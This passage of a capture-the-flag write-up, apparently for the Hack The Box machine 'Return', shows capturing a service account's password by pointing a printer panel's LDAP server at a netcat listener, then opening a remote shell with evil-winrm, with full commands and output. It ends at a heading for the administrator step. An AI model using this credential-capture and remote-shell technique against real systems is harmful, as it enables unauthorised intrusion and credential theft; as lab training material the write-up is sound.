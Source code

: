 The above settings shows us the username which is `svc-printer` and the hardcoded password which has been masked.

## SHELL AS SVC-PRINTER

### CREDENTIAL DUMPING

Once we change the server ip address to our ip address , open a `netcat listener` on port 389 and click on update .

![](/assets/Hackthebox/Return/3.png)

we receive a password `1edFg43012!!`

```bash
$sudo nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.11.108] 60888
0*`%return\svc-printer▒
1edFg43012!!
```

Using `evil-winrm` to establish a remote connection.
```bash
$evil-winrm -i 10.10.11.108 -u svc-printer -p '1edFg43012!!'

Evil-WinRM shell v3.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```


## SHELL AS ADMINISTRATOR
